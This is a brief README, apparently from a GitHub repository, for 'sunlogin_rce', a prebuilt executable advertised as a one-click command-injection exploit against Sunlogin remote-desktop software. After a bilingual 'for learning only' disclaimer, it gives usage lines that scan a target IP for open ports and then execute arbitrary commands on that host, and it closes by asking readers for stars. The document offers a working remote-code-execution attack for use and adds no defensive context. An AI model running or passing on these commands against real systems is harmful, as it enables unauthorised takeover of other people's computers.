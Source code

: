 # sunlogin_rce
# 免责声明
仅供学习交流，未经作者许可不得转载
任何因传播和使用本工具而造成的直接或间接后果和损失均由用户自行承担，作者对此不承担任何责任。
# Disclaimer
It is only for learning and communication, and cannot be reproduced without the permission of the author
Any direct or indirect consequences and losses caused by the dissemination and use of this tool are the responsibility of the user, and the author does not assume any responsibility for this.
# 向日葵 命令注入（rce）利用 无需安装任何语言环境 无需编译 一键运行。
sunlogin_rce.exe -H ip //扫描存在的端口

sunlogin_rce.exe -H ip -P rce 端口 -C 命令 //执行命令

大家觉得好用的话，可以点点star
